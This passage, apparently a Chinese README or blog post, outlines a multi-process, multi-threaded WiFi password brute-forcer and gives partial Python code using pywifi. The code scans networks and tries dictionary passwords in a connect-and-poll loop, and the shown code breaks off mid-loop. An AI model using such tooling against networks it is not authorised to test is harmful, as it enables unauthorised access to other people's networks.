 ```python
```

思路:
1. `test_scan`获取所有的ssid
1. 每一个密码文件一个进程，通过Array, List, Value进行进程通信; 有破解的通知其他进程退出
1. 密码读入list, 对list分段，多线程爆破;　有破解的通知其他线程推出

![](res/wifi01.png)

### linux wifi crack

虚拟机没有物理网卡，需要usb网卡;

windows vs linux wifi:
- windows每次需要建文件所以比linux慢
- windows有安全设定，会很慢

```python
# 这个windows上也能用,建议在linux上使用
from pywifi import *
import time
import sys


def scans(face, timeout):
    # 开始扫描
    face.scan()
    time.sleep(timeout)
    # 在若干秒后获取扫描结果
    return face.scan_results()


def go(i, face, x, key, ts):
    # 显示对应网络名称，考虑到部分中文名啧显示bssid
    showID = x.bssid if len(x.ssid) > len(x.bssid) else x.ssid
    print("wifiname", showID)
    # 迭代字典并进行爆破
    for n, k in enumerate(key):
        x.key = k.strip()
        # 移除所有热点配置
        face.remove_all_network_profiles()
        # 讲封装好的目标尝试连接
        face.connect(face.add_network_profile(x))
        # 初始化状态码，考虑到用0会发生些逻辑错误
        code = 10
        t1 = time.time()
        # 循环刷新状态，如果置为0则密码错误，如超时则进行下一个
        while code != 0:
            time.sleep(10)
            code = face.status()
```